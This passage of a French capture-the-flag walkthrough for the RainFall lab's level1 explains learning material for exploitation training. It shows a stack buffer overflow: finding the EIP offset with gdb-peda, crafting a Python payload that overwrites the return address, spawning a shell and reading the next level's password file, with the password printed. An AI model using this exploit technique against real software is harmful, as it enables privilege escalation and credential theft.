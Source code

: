 ```shell
  
  # Plutôt que de compter à la main combien de chars il faut imprimer avant l'addresse de run() on va le faire calculer par peda
  gdb-peda$ pattern search
    [...]
    Registers contain pattern buffer:
    # On l'a ! Il faut écrire 76 random chars avant l'addresse de run()
    EIP+0 found at offset: 76
    # Comme on peut s'y attendre EBP se trouve 4 octets avant EIP
    EBP+0 found at offset: 72
    [...]
```

* On a donc tous les prérequis. En transformant en little indian l'addresse de run, on va pouvoir construire la string suivante (0x 08 04 84 44 => \x44 \x84 \x04 \x08 vous voyez comment faire maintenant):

```shell
  level1@RainFall:/tmp$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > pattern1
```

* Et maintenant la magie opère (enfin presque):

```shell
  level1@RainFall:/tmp$ ~/level1 < pattern1
    Good... Wait what?
    Segmentation fault (core dumped)
```

* Oh non! Le programme exit tout de suite apres le call a run(). Il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
> " The shell doesn't have any input, when it detects EOF it dies. "

```shell
  level1@RainFall:/tmp$ cat /tmp/pattern1 - | ~/level1
    Good... Wait what?
  # A partir de là, rien n'est prompt. Mais on peut écrire:
  whoami
    level2
  # Youhou!
  cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
  # CTRL + D
  Segmentation fault (core dumped)
  level1@RainFall:/tmp$ su level2
    Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
  level2@RainFall:~$
```